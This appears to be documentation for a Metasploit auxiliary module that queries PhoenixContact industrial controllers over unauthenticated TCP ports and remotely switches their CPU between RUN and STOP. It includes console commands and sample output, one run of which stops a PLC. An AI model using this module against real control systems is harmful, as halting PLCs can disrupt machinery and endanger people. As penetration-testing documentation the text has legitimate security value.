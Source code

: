 PhoenixContact Programmable Logic Controllers are built are using a variant of
ProConOS. The communicate using a proprietary protocol over ports TCP/1962 and
TCP/41100 or TCP/20547.  This protocol allows a user to remotely determine the
PLC type, firmware and build number on port TCP/1962.  A user can also
determine the CPU State (Running or Stopped) and start or stop the CPU.

This functionality is confirmed for the PLC series ILC 15x and 17x on TCP port
20547, and for the ILC 39x series on TCP port 41100. Other series may or
may not work, but there is a good chance that they will

## Vulnerable Application

This is a hardware zero-day vulnerability that CANNOT be patched. Possible
mitigations include: pulling the plug (literally), using network isolation
(Firewall, Router, IDS, IPS, network segmentation, etc...) or not allowing bad
people on your network.

Most, if not all, PLC's (computers that control engines, robots, conveyor
belts, sensors, camera's, doorlocks, CRACs ...) have vulnerabilities where,
using their own tools, remote configuration and programming can be done
*WITHOUT* authentication.  Investigators and underground hackers are just now
creating simple tools to convert the, often proprietary, protocols into simple
scripts.  The operating word here is proprietary. Right now, the only thing
stopping very bad stuff from happening.  PhoenixContact uses an (unnamed?)
low-level protocol for connection, information exchange and configuration of
its PLC devices.  This script utilizes that protocol for finding information
and switching the PLC mode from STOP to RUN and vice-versa.

## Verification Steps

The following demonstrates a basic scenario, we "found" two devices with an open port TCP/1962:

```
msf > search phoenix
msf > use auxiliary/admin/scada/phoenix_command
msf auxiliary(phoenix_command) > set RHOST 10.66.56.12
RHOST => 10.66.56.12
msf auxiliary(phoenix_command) > run

[*] 10.66.56.12:0 - PLC Type = ILC 150 GSM/GPRS
[*] 10.66.56.12:0 - Firmware = 3.71
[*] 10.66.56.12:0 - Build    = 07/13/11 12:00:00
[*] 10.66.56.12:0 - ------------------------------------
[*] 10.66.56.12:0 - --> Detected 15x/17x series, getting current CPU state:
[*] 10.66.56.12:0 - CPU Mode = RUN
[*] 10.66.56.12:0 - ------------------------------------
[*] 10.66.56.12:0 - --> No action specified (NOOP), stopping here
[*] Auxiliary module execution completed

msf auxiliary(phoenix_command) > set RHOST 10.66.56.72
RHOST => 10.66.56.72
msf auxiliary(phoenix_command) > set ACTION REV
ACTION => REV
msf auxiliary(phoenix_command) > run
[*] 10.66.56.72:0 - PLC Type = ILC 390 PN 2TX-IB
[*] 10.66.56.72:0 - Firmware = 3.95
[*] 10.66.56.72:0 - Build    = 02/14/11 14:04:47
[*] 10.66.56.72:0 - ------------------------------------
[*] 10.66.56.72:0 - --> Detected 39x series, getting current CPU state:
[*] 10.66.56.72:0 - CPU Mode = RUN
[*] 10.66.56.72:0 - ------------------------------------
[*] 10.66.56.72:0 - --> Sending STOP now
[*] 10.66.56.72:0 - CPU Mode = STOP
[*] Auxiliary module execution completed
```

## Options
```
msf auxiliary(phoenix_command) > show options

Module options (auxiliary/admin/scada/phoenix_command):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ACTION     NOOP             yes       PLC CPU action, REV means reverse state (Accepted: STOP, START, REV, NOOP)
   RHOST                       yes       The target address
   RINFOPORT  1962             yes       Set info port
   RPORT                       no        Set action port, will try autodetect when not set
```

By default, the module only reads out the PLC Type, Firmware version, Build
date and current CPU mode (RUNing or STOPed)

The first three pieces of data (Type, Firmware & Build) are always found on
port TCP/1962 (there is no way of changing that port on the PLC, so also no
reason to change the 'RINFOPORT' option)

The CPU mode uses a TCP port depending on the PLC Type, the module will
automatically detect the type and port to use, but can be overridden with the
'RPORT' option, however no real reason to configure it. If you accidentally set RPORT, you can unset it with the ```unset RPORT``` command.

**The ACTION option**

Action has four possible values:

By default, the module will do nothing to the PLC, therefore No Operation or 'NOOP':

```
msf auxiliary(phoenix_command) > set ACTION NOOP
```

The PLC can be forced to go into STOP mode, meaning it stops all execution and all outputs are set to low:

```
msf auxiliary(phoenix_command) > set ACTION STOP
```

The PLC can be forced to go into RUN mode, where it keeps running it was or it will start executing its current boot programming:

```
msf auxiliary(phoenix_command) > set ACTION START
```

The module can also just read out the CPU mode and then reverse whatever it finds, RUN becomes STOP, STOP becomes RUN:

```
msf auxiliary(phoenix_command) > set ACTION REV
```
